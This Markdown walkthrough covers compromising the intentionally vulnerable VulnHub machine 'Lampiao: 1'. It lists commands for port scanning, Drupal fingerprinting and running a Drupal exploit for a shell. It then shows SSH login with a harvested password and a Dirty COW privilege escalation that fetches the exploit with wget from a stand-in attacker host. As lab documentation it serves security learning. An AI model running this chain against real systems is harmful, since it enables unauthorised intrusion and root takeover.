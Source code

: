 ### target:			Lampiao: 1 by Tiago Tavares
### hosted by:			vulnhub.com
### virtualization software: 	virtualbox
### testing platform:		kali linux 2017
### walkthrough by:		worzel-gummidge

the attacker uses **nmap** to probe for any open ports. 3 open ports are found: tcp22(ssh), tcp80(http) and tcp1898(http). **nmap** also reports back that *drupal 7* is running on tcp1898.
```bash
nmap -A -n -T5 -p1-65535 http://target
```

the attacker then uses **nikto** to run scans on the http ports(tcp80 and tcp1898). **nikto** confirms *drupal 7* is running on tcp1898.
```bash
nikto -h http://target:1898
```

using **BlindElephant.py**, the attacker is able to fingerprint what *drupal* version is running on the target machine.
```bash
BlindElephant.py http://target:1898 drupal
```
to find out if a vulnerability and an appropriate exploit exists for (maybe) *drupal 7.14*, the attacker uses **searchsploit**.
```bash
searchsploit drupal 7
```

the attacker launches the attack and spawns a limited, low privileged shell.
```bash
./44449.rb http://target:1898
```

![screenshot of limited shell](assets/1.png "limited, low privileged shell")

after finding a database password in */sites/default/settings.php*, the attacker uses the password(Virgulino) along with the username *tiago* to login to the remote server via *ssh*. now the attacker has a more functional shell and is authenticated as user *tiago*.
```bash
ssh tiago@target
```

![screenshot of ssh session logged in as tiago](assets/2.png "ssh seesion; user: tiago")

the attacker uses *seachsploit* once again to locate the *dirty COW* exploit on his local machine. apache2 services are started and the attacker serves the *dirty COW* exploit from her local server. via her *ssh* session on the remote target machine, the attacker uses *wget* to fetch the *dirty COW* exploit from her loacl server. the exploit is compiled and run.
```bash
wget http://attacker/40847.cpp
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow
su
```

the attacker has root.

![screenshot of flag](assets/3.png "root")
